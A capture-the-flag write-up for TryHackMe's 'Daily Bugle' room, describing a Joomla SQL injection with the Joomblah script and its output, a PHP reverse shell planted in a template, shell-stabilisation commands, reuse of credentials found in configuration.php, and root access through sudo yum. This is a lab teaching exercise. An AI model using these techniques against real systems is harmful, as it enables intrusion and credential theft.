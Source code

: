 ```yaml
---
title: 'Daily Bugle'
description: "Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum."
date: 2024-05-04T17:10:10+02:00
tags: 
    - "tryhackme"
    - "hard"
external_url: "https://tryhackme.com/r/room/dailybugle"
draft: false
---
```


## Questions
1. Access the web server, who robbed the bank?
1. What is the Joomla version?
1. What is Jonah's cracked password?
1. What is the user flag?
1. What is the root flag?

## Reconnaissance
After deployment, I started by just going to `http://trgt/`. It loaded a Joomla webpage where I immediately found the first answer.
The spelling was diffrent, had to replace a character for it to work. 

I checked the Joomla version by going to `http://trgt/administrator/manifests/files/joomla.xml` allowing me to get the second question.

## Exploitation
The Joomla CMS was vulnerable to [CVE-2017-8917](https://nvd.nist.gov/vuln/detail/CVE-2017-8917), an SQLi vulnerability.
I used [Joomblah](https://github.com/XiphosResearch/exploits/tree/master/Joomblah) to exploit this vulnerability.
```
$ python3 joomblah.py http://trgt/

    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '<password hash>', '', '']
  -  Extracting sessions from fb9j5_session
```

Cracking the password gave me a working login for a "Super User". I went to `http://trgt/administrator/` which allowed me to login.

## Foothold
Getting a foothold on the Joomla server was very similar to a WordPress server. Login as a priviliged user, go to themes / templates, add your own PHP reverse shell and profit.

For a reverse shell I used [pentestmonky](https://github.com/pentestmonkey/)'s [PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). This was easily and quickly done by using [revshells](https://www.revshells.com/).

I stablized the shell by doing
1. `$ python -c 'import pty;pty.spawn("/bin/bash")'` (python3 wasn't available on the box)
2. `CTRL + Z`
3. `$ stty raw -echo; fg`
4. `$ export TERM=xterm`

Which gave me a better and more useable shell.


## Privilege Escalation
### User
Looking at `/home/` I saw a user called "jjameson" but the home directory was locked down.
Further looking around, I found `configuration.php` in `/var/html/www/` which stored MySQL credentials.

The MySQL database wasn't all that interesting so I tried logging in to the user with the password which worked and gave me the user flag.

### Root
Doing a simple `sudo -l` showed that "jjameson" could run `yum` with root privileges. Looking it up on [GTFOBins](https://gtfobins.github.io/) gave me the information needed to get root shell and therefore the root flag.